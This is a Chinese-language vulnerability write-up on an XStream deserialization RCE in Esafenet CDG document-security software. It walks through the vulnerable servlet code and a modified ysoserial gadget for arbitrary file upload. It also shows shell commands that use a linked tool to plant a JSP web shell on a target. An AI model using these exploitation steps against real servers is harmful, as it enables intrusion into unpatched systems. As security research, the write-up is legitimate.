 ```yaml
---
created: 2024-09-30T06:03:00+00:00
categories:
  - 技术研究
tags:
  - RCE
updated: 2023-01-09T00:00:00+00:00
date: 2022-12-05T00:00:00+00:00
slug: cdg-xstream-deserialization-arbitrary-file-upload
title: 亿赛通电子文档安全管理系统XStream反序列化远程代码执行漏洞
cover: /img/post/cdg-xstream-deserialization-arbitrary-file-upload/burp-1.png
id: 111906e1-7468-8077-b828-c9badccc4dac
---
```


## 漏洞简介

亿赛通电子文档安全管理系统（简称：CDG）是一款电子文档安全防护软件，该系统利用驱动层透明加密技术，通过对电子文档的加密保护，防止内部员工泄密和外部人员非法窃取企业核心重要数据资产。亿赛通电子文档安全管理系统引用了低版本存在反序列化漏洞的 XStream 库，攻击者可利用该漏洞对服务器上传任意文件，进而控制服务器权限。

## 影响版本

- <= 820

## 漏洞分析

依赖位于`WEB-INF/lib/jhiberest.jar`文件，反编译后可以很明显的发现存在 XStream 的写法，并且 XStream 的版本用的也是低版本的，1.4.9 版本。

![cdg-systemservice](/img/post/cdg-xstream-deserialization-arbitrary-file-upload/cdg-systemservice.png)

同时，此类在 web.xml 文件中的对应关系如下，由于 CDG 的 Web 根路径是`/CDGServer3`，那么当请求路径是`/CDGServer3/SystemService`时，请求将会由如下`com.esafenet.servlet.service.cdgfile.SystemService`类来处理。

```xml
<servlet>
	<servlet-name>SystemService</servlet-name>
	<servlet-class>
		com.esafenet.servlet.service.cdgfile.SystemService
	</servlet-class>
</servlet>
```

也就是上图存在 XStream 的`SystemService`类，关键代码已贴至下面。

```java
public class SystemService extends HttpServlet {
    private static final Log log = LogFactory.getLog(FilesService.class);
    private static String retrunString = "";
    private static final long serialVersionUID = -3607772408578536033L;
    private XStream xStream = ServiceUtil.getStream();
    private UserDao userDao = new UserDao();
    private UsbKeyDao usbKeyDao = new UsbKeyDao();
    private SecretDocDao secretDocDao = new SecretDocDao();
    private SecretUserDao secretUserDao = new SecretUserDao();

    public void service(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {
        try {
            String command = request.getParameter("command").toString();
            if (command != null && command.length() > 0) {
                switch (CommandConstants.getCommandValue(command)) {
                    case CommandConstants.GETSYSTEMINFO /* 1601 */:
                        getSystemInfo(request, response);
                        break;
                }
            }
        } catch (Exception e) {
        }
    }

    private void getSystemInfo(HttpServletRequest request, HttpServletResponse response) {
        SystemReturn systemReturn = new SystemReturn();

        try {
            String xmlStr = ServiceUtil.getXMLFromRequest(request);
            SystemServiceRequest systemServiceRequest = (SystemServiceRequest)this.xStream.fromXML(xmlStr);
            systemReturn.setReturnMessage("OK");
            systemReturn.setSecretKey(DocInfoModel.getCDGKey());

            // ...

        } catch (Exception e2) {
            retrunString = "";
            e2.printStackTrace();
            log.error("取系统信息" + e2.getMessage());
            systemReturn.setReturnMessage(ErrorConstants.SYSTEMSERVICE_ERROR);
            ServiceUtil.sendInfo(request, response, this.xStream.toXML(systemReturn));
        }
    }
}
```

需要接收一个`command`参数，该参数值必须为`GETSYSTEMINFO`才会顺利进入到`getSystemInfo`方法。

```java
String xmlStr = ServiceUtil.getXMLFromRequest(request);
SystemServiceRequest systemServiceRequest = (SystemServiceRequest)this.xStream.fromXML(xmlStr);
```

在触发 XStream 反序列化漏洞之前，`request`还经过`ServiceUtil.getXMLFromRequest`方法的一道处理，就是各种解码。

![serviceutil-getxmlfromrequest](/img/post/cdg-xstream-deserialization-arbitrary-file-upload/serviceutil-getxmlfromrequest.png)

对于此，倒也没必要通过其解码的操作来逆向编码的操作，因为负责编码的方法就是`changeXMLInfo`，后面在利用阶段直接调用该方法即可。

```java
public static String changeXMLInfo(String str) throws Exception {
    byte[] abyte1 = str.getBytes();
    int nLength = Array.getLength(abyte1);
    CodeDecoder.Encode(abyte1, nLength, abyte0);
    String src = new String(abyte1, "ISO8859_1");
    return CodeDecoder.getTransferEncrptString(src);
}
```

## 漏洞利用

> 漏洞利用分为两步骤，第一步是构造出恶意的 XStream 反序列化 XML Payload，第二步是将 XML 内容编码成亿赛通电子文档安全管理系统能够接受的字符串。

### 恶意 XML 构造

通过修改[ysoserial-for-woodpecker](https://github.com/woodpecker-framework/ysoserial-for-woodpecker)开源项目。在 CommonsBeanutils2.java 中做如下修改，接受的参数值为`upload_file_base64:..//webapps//CDGServer3//testttttt.txt|YWJjMTIz`，其中|前面的部分是上传至目标服务器的路径，而|后面的部分是上传的内容的 base64 值，`YWJjMTIz` base64 解码后是 abc123。

![ysoserial-for-woodpecker-cb2](/img/post/cdg-xstream-deserialization-arbitrary-file-upload/ysoserial-for-woodpecker-cb2.png)

在 PayloadRunner.java 中添加如下行。

![ysoserial-for-woodpecker-payloadrunner](/img/post/cdg-xstream-deserialization-arbitrary-file-upload/ysoserial-for-woodpecker-payloadrunner.png)

然后回到`CommonsBeanutils2.main()`点击 Run，就会将恶意的 XML 内容生成并打印出来。

![cb2-run](/img/post/cdg-xstream-deserialization-arbitrary-file-upload/cb2-run.png)

### 编码

直接利用该 jhiberest.jar 包中的`changeXMLInfo`编码方法，同时注意还需导入其他的一些依赖包。

![encode-1](/img/post/cdg-xstream-deserialization-arbitrary-file-upload/encode-1.png)

![encode-2](/img/post/cdg-xstream-deserialization-arbitrary-file-upload/encode-2.png)

最终生成一串编码后的字符串。

### 概念验证

将上面生成的一段编码后的字符串复制至 BurpSuite 点击 Send。

![burp-1](/img/post/cdg-xstream-deserialization-arbitrary-file-upload/burp-1.png)

然后请求`/CDGServer3/testttttt.txt`路径，可以发现文件已成功上传。

![burp-2](/img/post/cdg-xstream-deserialization-arbitrary-file-upload/burp-2.png)

### 自动化工具

项目地址：

- <https://github.com/0xf4n9x/CDGXStreamDeserRCE>

本地文件上传利用。

```shell
~/GitHub/CDGXStreamDeserRCE  ‹main*› $ cat tessssssssssssst1.jsp
<%
out.println("e165421110ba030e165421110ba03099a1c0393373c5b4399a1c0393373c5b43");
%>
~/GitHub/CDGXStreamDeserRCE  ‹main*› $ java -jar CDGXStreamDeserRCE.jar -p http://127.0.0.1:8080 -uf tessssssssssssst1.jsp -t https://192.168.31.190:8443
[+] Exploit Successed
[+] WebShell: https://192.168.31.190:8443/CDGServer3/tessssssssssssst1.jsp
~/GitHub/CDGXStreamDeserRCE  ‹main*› $ curl -k https://192.168.31.190:8443/CDGServer3/tessssssssssssst1.jsp
e165421110ba030e165421110ba03099a1c0393373c5b4399a1c0393373c5b43
```

字符串解码。

```shell
java -jar CDGXStreamDeserRCE.jar -d FEPCCCLCENHIPOAFPAPDDFCGEAPNMDBMOJPMJAKKNPHOKIKIDCBPHEGKLDGNHCBDEIMODEKMKPFBAIMMNLOJJKMIICLAPJAAFGNGAKFBMPKPJMOIKODEJJMHJCCHKBMFMMFDLOMDPABOJCEAPOFDCPMKGDHFNBBIMCIPAMMIIANFPAJHFAABLLLANNIDAGNKOHONJGFGBKHFDMCLJIMICBHBJEIAAIMACN
```

![decode](https://user-images.githubusercontent.com/40891670/209945515-1539ff6b-e4c4-46a3-8764-7aa3a7568741.png)

## References

- <https://github.com/woodpecker-framework/ysoserial-for-woodpecker>
